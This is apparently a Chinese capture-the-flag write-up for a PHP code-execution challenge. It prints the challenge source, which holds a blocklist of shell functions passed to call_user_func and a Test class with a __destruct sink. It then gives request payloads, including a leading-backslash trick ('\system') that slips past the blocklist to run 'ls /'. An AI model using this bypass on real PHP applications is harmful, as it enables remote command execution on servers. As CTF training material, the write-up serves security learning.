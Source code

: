 ![image-20240203211841135](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240203211841135.png)

那么现在就是一道代码执行题目了

先读一下它的源代码

```
func=highlight_file&p=index.php
```

过滤了n个函数

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p); //调用函数
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func); //转小写
        if (!in_array($func,$disable_fun)) { //判断是否在黑名单
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

使用

```
func=\system&p=ls /  //system前的\是绕过过滤的
```
